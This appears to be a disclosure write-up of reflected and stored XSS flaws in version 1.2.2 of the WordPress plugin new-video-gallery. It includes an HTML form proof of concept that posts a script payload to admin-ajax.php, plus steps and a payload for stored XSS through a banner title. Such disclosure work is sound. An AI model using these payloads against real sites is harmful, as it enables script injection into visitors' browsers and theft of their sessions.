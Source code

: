 * App: new-video-gallery
* Verion: 1.2.2
* Issue: xss

# Detail

[new-video-gallery](https://wordpress.org/plugins/new-video-gallery/) is a Wordpress plugin for create YouTube Gallery & Create Vimeo Gallery into your WordPress site. In the version 1.2.2 there are some XSS issues.

At frist, in the file new-video-gallery/new-video-gallery.php:300 line, the function `_ajax_video_gallery()` can be controlled.


And then the function `_vg_ajax_callback_function($id)` will be sinked.
![1](1.png)
- The PoC:
```php
<html>
<body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.20.16:8888/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="video&#95;gallery&#95;js" />
      <input type="hidden" name="slideId" value="1&quot;&gt;&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
![2](2.png)

---

The other like a stored-xss Press `Add Video Gallery` and into this page then press`ADD VIDEO BANNER`.You can upload an image and write the payload on hte `Title` label.
![3](3.png)
Then press Publish And You will get a `Shortcode`, press the `Shortcode` in your page.
![4](4.png)
![5](5.png)
The xss will execute in the front page.
![6](6.png)

* Poc
  ``` html
  “><script>alert(2)</script><
  ```
